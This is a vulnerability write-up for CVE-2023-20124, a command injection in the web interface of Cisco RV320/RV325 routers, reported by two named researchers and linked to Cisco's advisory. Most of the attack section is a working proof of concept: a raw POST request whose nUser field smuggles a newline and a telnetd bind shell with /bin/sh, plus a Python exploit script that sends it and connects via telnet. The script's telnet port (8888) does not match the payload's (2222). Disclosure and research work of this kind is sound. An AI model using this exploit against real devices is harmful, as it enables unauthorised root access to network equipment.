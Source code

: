 CVE-id: CVE-2023-20124

Vendor's disclosure and acknowledgement: https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-sb-rv01x_rv32x_rce-nzAGWWDD

# Information

**Vendor of the products:**  Cisco

**Vendor's website:**  https://www.cisco.com

**Reported by:**  FeiXincheng([FXC030618@outlook.com](mailto:FXC030618@outlook.com)) && ShaLetian([ltsha@njupt.edu.cn](mailto:ltsha@njupt.edu.cn))

**Affected products:**

Cisco RV320 Dual Gigabit WAN VPN Router

Cisco RV325 Dual Gigabit WAN VPN Router

**Affected firmware version:**

1.5.1.13 (the latest release version)

**Firmware download address:**

https://software.cisco.com/download/home/284005936/type/282465789/release/1.5.1.13

# Overview

**Cisco RV32x Series VPN Routers** were detected with a command injection vulnerability .The vulnerability is caused by lax verification of user input. An authenticated attacker can send crafted requests to the web-based management interface. Successful exploits could allow the attacker to execute arbitrary commands on remote devices.

# Vulnerability details

The vulnerability was detected in the `ssi.cgi` binary.

In the **NK_UiSetPassword** function, first we need to bypass some checks by inputing the right passwd and seting the **submitStatus** value.

![1](./img/1.png)

And then, we can control **local_2c0**.

![2](./img/2.png)

Finally ,it can be passed to **system**. Although **local_2c0** will be checked before **system**, i think it ignores **\n**. As a result, it can lead to a **command inject**.

![3](./img/3.png)

Above all, here is a remote command execution vulnerability. The attacker can inject arbitrary commands after the**\n** in the **nUser** of the POST request message and execute them.

# Poc

Send the following POST request message

```
POST /password.htm HTTP/1.1
Host: 192.168.1.1
Cookie: mlap=4zcoqrxD+KTbtDfDTuIWCA==
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 411
Origin: https://192.168.1.1
Referer: https://192.168.1.1/password.htm
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

page=password.htm&submitStatus=1&log_ch=1&check_aging_time=0&current_username=cisco&PdAgingTime_open_flag=0&nnUser=cisco&nUser=cis%0Atelnetd%20-p%202222%20-l%20%2Fbin%2Fsh%0A&oPass=123456&md5_old_pass=bbd5a14a86bbdc390e4370ad8525d9eb&md5_new_pass=066bae9070a9a95b3e03019db131cd40&auth_key=1964300002&nPass=cisco&cPass=cisco&PdStrength=&PdAgingDate=0&PDlength=8&PDclass=3&PDdifferent=0&EnableAge=0&idletimeout=10
```

# Attack Demo

After the attack is completed, we successfully logged into the device remotely and got the **root** shell of the device

![image-20230119212351774](./img/4.png)

# exp

```python
import os
import requests

cookies = {
    'mlap': 's/a8YMD2yjnpaHzgm/mnJg==',
}

headers = {
    'Host': '192.168.1.1',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'https://192.168.1.1',
    'Referer': 'https://192.168.1.1/password.htm',
    'Upgrade-Insecure-Requests': '1',
    'Sec-Fetch-Dest': 'iframe',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-User': '?1',
    'Connection': 'close',
}

data = 'page=password.htm&submitStatus=1&log_ch=1&check_aging_time=0&current_username=cisco&PdAgingTime_open_flag=0&nnUser=cisco&nUser=cisco%0Atelnetd%20-p%202222%20-l%20%2Fbin%2Fsh%0A&oPass=123456&md5_old_pass=bbd5a14a86bbdc390e4370ad8525d9eb&md5_new_pass=066bae9070a9a95b3e03019db131cd40&auth_key=1964300002&nPass=cisco&cPass=cisco&PdStrength=&PdAgingDate=0&PDlength=8&PDclass=3&PDdifferent=0&EnableAge=0&idletimeout=10'


if __name__ == "__main__":
	
	requests.packages.urllib3.disable_warnings()
	print("[+] Send payload to 192.168.1.1 ...")
	response = requests.post('https://192.168.1.1/password.htm', cookies=cookies, headers=headers, data=data, verify=False, timeout=1)
	
	print("[+] Connect to 192.168.1.1 8888")
	os.system("telnet 192.168.1.1 8888")

```

